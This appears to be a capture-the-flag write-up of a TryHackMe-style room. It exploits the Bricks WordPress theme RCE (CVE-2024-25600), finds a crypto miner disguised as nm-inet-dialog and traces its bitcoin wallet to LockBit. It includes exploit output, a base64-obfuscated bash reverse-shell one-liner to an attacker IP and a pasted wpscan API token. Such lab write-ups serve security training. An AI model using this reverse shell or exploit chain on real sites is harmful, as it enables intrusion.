









## TL;DR

In this challenge we first exploit `RCE` in theme `Bricks` to get shell on the wordpress website. Then we find the crypto miner hiding as `nm-inet-dialog`, we find the log file at `/lib/NetworkManager/inet.conf`, and deobfuscate the bitcoin wallet address, which is `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`.
At the end, we track down transactions related to this wallet and find out that `LockBit` stands behind those transactions. 

### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target -oX nmap.xml -oN nmap.txt -Pn
```



We can see there are 4 open ports. port `22` with ssh, port `80` with python http server, port `443` with apache server which probably holds `wordpress` webserver and port `3306` with `mysql`.

```bash
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a9:fc:09:d8:dd:ee:93:17:cf:13:0e:df:77:87:01:75 (RSA)
|   256 d6:a5:76:ca:a4:4b:50:10:67:d8:c4:a4:c4:9f:27:84 (ECDSA)
|_  256 38:c7:3f:fe:98:7a:74:92:ff:fb:1c:14:ea:ad:ad:a3 (ED25519)
80/tcp   open  http     Python http.server 3.5 - 3.10
|_http-title: Error response
|_http-server-header: WebSockify Python/3.8.10
443/tcp  open  ssl/http Apache httpd
|_http-generator: WordPress 6.5
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache
| tls-alpn: 
|   h2
|_  http/1.1
|_http-title: Brick by Brick
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=US
| Not valid before: 2024-04-02T11:59:14
|_Not valid after:  2025-04-02T11:59:14
3306/tcp open  mysql    MySQL (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Exploit RCE vulnerability in theme Bricks to get reverse shell

As we saw earlier it uses `wordpress`, we can see this also from this image:



We'll use `wpscan` with free api token I generated to scan the website for vulnerabilities. (That's why I'm including this here, because it isn't mine for real)
We need to use `--disable-tls-checks` because it is doing problems with tls, port 443, so i tell him to disable the checks.

```bash
wpscan --url https://bricks.thm/ --api-token A84WpfaaDC3sbFc6WvqlVEvpe7hKJta06iTcavjE9Jw -o wpscan_results.txt --disable-tls-checks
```

Inside the scan we can detect `RCE`, in vulnerable version of the theme `Bricks`, version 1.9.6



```bash
 | [!] Title: Bricks < 1.9.6.1 - Unauthenticated Remote Code Execution                                                                                       
 |     Fixed in: 1.9.6.1                                                                                                                                     
 |     References:                                                                                                                                           
 |      - https://wpscan.com/vulnerability/afea4f8c-4d45-4cc0-8eb7-6fa6748158bd                                                                              
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-25600                                                                                      
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/b97b1c86-22a4-462b-9140-55139cf02c7a   
 ```

It lead us to this page [https://wpscan.com/vulnerability/afea4f8c-4d45-4cc0-8eb7-6fa6748158bd/](https://wpscan.com/vulnerability/afea4f8c-4d45-4cc0-8eb7-6fa6748158bd/).

After some googling, I found this working PoC [https://github.com/chocapikk/CVE-2024-25600](https://github.com/chocapikk/CVE-2024-25600).

We need to setup a virtual environment and download all dependencies.

```bash
┌──(agonen㉿kali)-[~/thm/BricksHeist/CVE-2024-25600]                                                                                                         
└─$ python3 -m venv .venv                                                                                                                                    
                                                                                                                                                             
┌──(agonen㉿kali)-[~/thm/BricksHeist/CVE-2024-25600]                                                                                                         
└─$ source .venv/bin/activate                                                                                                                                
                                                                                                                                                             
┌──(.venv)─(agonen㉿kali)-[~/thm/BricksHeist/CVE-2024-25600]                                                                                                 
└─$ pip install -r requirements.txt     
```

Now, just execute the exploit:
```bash
┌──(.venv)─(agonen㉿kali)-[~/thm/BricksHeist/CVE-2024-25600]
└─$ python3 exploit.py --url https://bricks.thm/
[*] Nonce found: 34b0f57817
[+] https://bricks.thm/ is vulnerable to CVE-2024-25600. Command output: apache
[!] Shell is ready, please type your commands UwU
# id
uid=1001(apache) gid=1001(apache) groups=1001(apache) 
```


We'll paste this `penelope` reverse shell payload, to get easier reverse shell:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuOS4yLjE0Ny80NDQ0IDA+JjEpICY=|base64 -d|bash
```

We can find the flag, for the first question:

```bash
apache@ip-10-10-95-16:/data/www/default$ cat 650c844110baced87e1606453b93f22a.txt 
THM{fl46_650c844110baced87e1606453b93f22a}
```

### Find the Crypto Miner hiding as nm-inet-dialog

Since we are looking for miner, I used `systemctl` to view all running services:

```bash
systemctl list-units --type service --state running
```



We can find this, since the description we can know something here is related to the CTF:
```bash
ubuntu.service                                 loaded active running TRYHACK3M                                                       
```

We can read the `.service` file using this command:
```bash
apache@ip-10-10-95-16:/data/www/default$ systemctl cat ubuntu.service
# /etc/systemd/system/ubuntu.service
[Unit]
Description=TRYHACK3M

[Service]
Type=simple
ExecStart=/lib/NetworkManager/nm-inet-dialog
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

So, now we know that the binary is `/lib/NetworkManager/nm-inet-dialog`, and the process is `nm-inet-dialog`.
When I searched for this process, i found this [https://any.run/report/2d96bf6e392bbd29c2d13f6393410e4599a40e1f2fe9dc8a7b744d11f05eb756/dafb439b-3f7f-4919-a9aa-33692e81dfd4](https://any.run/report/2d96bf6e392bbd29c2d13f6393410e4599a40e1f2fe9dc8a7b744d11f05eb756/dafb439b-3f7f-4919-a9aa-33692e81dfd4), AnyRun says this is `Crypto Miner`. (Maybe it was created for this challenge, I'm not sure)

### Find log and track the address of the bitcoin wallet

I go to `/lib/NetworkManager`, because probably I'll be able to find the logs in this directory.

We can check for the type of all of the files in this directory:



It looks like `inet.conf` holds the logs, we can check for this:
```bash
apache@ip-10-10-95-16:/lib/NetworkManager$ head inet.conf 
ID: 5757314e65474e5962484a4f656d787457544e424e574648555446684d3070735930684b616c70555a7a566b52335276546b686b65575248647a525a57466f77546b64334d6b347a526d685a6255313459316873636b35366247315a4d304531595564476130355864486c6157454a3557544a564e453959556e4a685246497a5932355363303948526a4a6b52464a7a546d706b65466c525054303d
2024-04-08 10:46:04,743 [*] confbak: Ready!
2024-04-08 10:46:04,743 [*] Status: Mining!
2024-04-08 10:46:08,745 [*] Miner()
2024-04-08 10:46:08,745 [*] Bitcoin Miner Thread Started
2024-04-08 10:46:08,745 [*] Status: Mining!
2024-04-08 10:46:10,747 [*] Miner()
2024-04-08 10:46:12,748 [*] Miner()
2024-04-08 10:46:14,751 [*] Miner()
2024-04-08 10:46:16,753 [*] Miner()
```

We can take obfuscated ID string to [[text](https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')From_Base64('A-Za-z0-9%2B/%3D',true,false)From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=NTc1NzMxNGU2NTQ3NGU1OTYyNDg0YTRmNjU2ZDc4NzQ1NzU0NGU0MjRlNTc0NjQ4NTU1NDQ2Njg0ZDMwNzA3MzU5MzA2ODRiNjE2YzcwNTU1YTdhNTY2YjUyMzM1Mjc2NTQ2YjY4NmI2NTU3NTI0ODY0N2E1MjVhNTc0NjZmNzc1NDZiNjQzMzRkNmIzNDdhNTI2ZDY4NWE2MjU1MzEzNDU5MzE2ODczNjM2YjM1MzY2MjQ3MzE1YTRkMzA0NTMxNTk1NTY0NDc2MTMwMzU1ODY0NDg2YzYxNTc0NTRhMzU1NzU0NGE1NjRlNDUzOTU5NTU2ZTRhNjg1MjQ2NDk3YTU5MzIzNTUzNjMzMDM5NDg1MjZhNGE2YjUyNDY0YTdhNTQ2ZDcwNmI2NTQ2NmM1MjUwNTQzMDNk) and try to deobfuscate this:

```bash
5757314e65474e5962484a4f656d787457544e424e574648555446684d3070735930684b616c70555a7a566b52335276546b686b65575248647a525a57466f77546b64334d6b347a526d685a6255313459316873636b35366247315a4d304531595564476130355864486c6157454a3557544a564e453959556e4a685246497a5932355363303948526a4a6b52464a7a546d706b65466c525054303d
```



We get this string: `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qabc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa`, which is consist of two strings, we can know because each string starts with `bc1` which is the first chars of bitcoin address:
```bash
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
bc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa
```

We go to [https://blockchair.com/](https://blockchair.com/), in order to check the addresses. 

The first address, `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`, appears to be a valid address.



We can scroll down to view the transactions, here [https://blockchair.com/bitcoin/address/bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa#history](https://blockchair.com/bitcoin/address/bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa#history).



Let's explore the third transaction, it seems to be a lot of money


As we can see, almost 4 bitcoins went to the address `32pTjxTNi7snk8sodrgfmdKao3DEn1nVJM`, let's google about this address and check if we can find something interesting about this address.



We can see this address is related with the ransomware group `LockBit`, which is the answer for the last question.
